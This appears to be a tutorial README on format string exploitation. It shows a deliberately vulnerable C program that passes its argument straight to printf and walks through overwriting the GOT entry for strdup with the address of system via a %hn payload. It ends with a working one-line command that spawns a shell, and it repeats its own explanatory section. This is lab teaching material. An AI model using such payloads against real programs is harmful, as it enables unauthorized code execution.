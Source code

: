 ###Overview
This code demonstrates format string exploits. These vulnerabilities occur when a function that takes string 
formats as inputs like `printf()` is exposed to user input. Mentally, I think of this as the C equivalent of 
SQL injection.  

This guide is based off of [this website](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) More in depth explanation is provided there

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three address off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  


###Process
Using this information we are going to try to open a system shell by exploiting this code:
```
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```

To do this we must:
- Find the memory address for `strdup()`
- Find the memory address for `system` (The shell)
- Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

####Find the memory address for `strdup()`
- Compile the program `gcc test.c -m32`
- view the compiled object `objdump -d a.out`
- You should see in the output a section with `<strdup@plt>` with a jmp command. the memory address to the right is the memory address of this function.
- Write this down. On my computer it is  `0x804a010`

####Find the memory address for `system`
- We must first disable libc randomization so that `system` is always at a deterministic location in memory.
- Run the command `ulimit -s unlimited` to diable libc randomization
- We can find the location using the debugging tool gdb. Below is the sample terminal output from doing so:
```
gdb -q a.out
Reading symbols from /home/osboxes/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048450
(gdb) r
Starting program: /home/osboxes/a.out 

Breakpoint 1, 0x08048450 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555d1e70 <system>
```
We now know that the location of system is `0x555d1e70`. This means we need to write `0x555d1e70` to `0x804a010` which is the location of `strdup` in the Global Offset Table

####Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three addresses off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  

If we succeed in overwriting `strdup` with `system` our program will call system with `argv[1]` so the string that we pass into printf must also be a valid system arguement. Our payload will begin with `sh#` so that everything after it will be commented out and we will open a shell process.  

Using the format of our paylaod string as `<address><address+2>%<number1>x%<offset>$hn%<number2>x%<offset+1>$hn` We can write the value of number1 to address and the value of number2 to address+2. The goal of the offset value is to determine what position in the stack the arguements number1 and number2 are located at. This takes adventage of the `x$` formatter which will select the xth arguement to `printf`. 

#####Finding offset value
The offset values are very sensitive to the lenght of the string changing so we will use a string that is the same length as the final string we wish to use. `"$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"` sending this string into our program this will display `sh;#AAAABBBB<garbabe>arg17<garbage>arg18`. We need to change 17 and 18 until the values `0x41414141` and '0x42424242` are displayed. This will mean that we know what argument the 5th through 8th byte and 9th through 12th byte of the string are, and can select them to be written to in the future.  

On my machine the proper offsets are 99 and 100.

#####Final Command
Running the command  `//env -i ./a.out "$(python -c 'import sys;sys.stdout.write("sh;#\x10\xa0\x04\x08\x12\xa0\x04\x08%07780x%99$hn%14061x%100$hn")')"` will successfully open up a new shell from this process. 

